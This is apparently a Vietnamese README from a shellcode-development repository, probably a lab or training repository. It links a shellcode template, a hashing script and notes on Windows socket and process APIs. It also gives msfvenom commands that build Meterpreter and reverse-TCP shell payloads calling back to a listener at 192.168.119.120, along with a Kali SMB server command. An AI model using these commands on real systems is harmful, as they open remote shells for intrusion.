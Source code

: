 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


- Tạo meterpreter:
  - msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -f exe -v met.exe
    
  - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f python –e x86/shikata_ga_nai -b "\x00..."
    

- Cài pwntool
  - python3 -m pip install --upgrade pip

  - python3 -m pip install --upgrade pwntools

- Setup smbserver trên kali:
sudo smbserver.py met /home/kali/ -smb2support
